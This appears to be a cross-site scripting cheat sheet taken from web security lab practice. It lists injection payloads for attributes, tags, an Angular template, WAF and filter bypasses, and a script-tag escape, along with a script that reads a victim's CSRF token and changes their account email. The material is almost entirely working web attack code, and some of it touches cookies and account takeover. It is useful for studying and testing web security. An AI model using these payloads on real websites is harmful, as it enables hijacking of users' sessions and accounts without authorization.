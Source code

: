 1. Unique scripts which used to bypass specify situations
```javascript
onmouseover="alert('xss')
"><svg onload="alert('xss')">
<img src=# onerror='alert(1)'>
javascript:alert('xss')
'-alert(document.domain)-'
';alert(document.domain)//
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

2. DOM XSS with Angular expression
```javascript
{{constructor.constructor('alert(1)')()}}
```

3. Arithmetic operator with JS –> Cause Reflected DOM XSS
```javascript
\"-alert(1)}//
```

4. Stored DOM XSS bypass the encode bracket
```javascript
<><img src=1 onerror=alert(1)>
```

5. Script for executing CSRF Form for XSS by using token CSRF
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

6. Tip for causing XSS with block by WAF (web applications firewall)
- Brute force to find the tag can available
- Try to execute attribute with tag available
- And force the website do the event –> Execute the XSS  
	Example: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

7. If on situation the server block all of tag can inject into the code –> we need to create them own like `<xss>`
```javascript
<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x
```

8. Payload can help you filter xss via press event by key button to causing the reflect
```javascript
%27accesskey=%27x%27onclick=%27alert(1)
```

9. If some case study like they add black splash `/` after you input that with quote so with causing reflect xss using close tag for `</script>` for ignore that situation and after that causing payload
```javascript
<\script><script>alert(1)<\script>
```
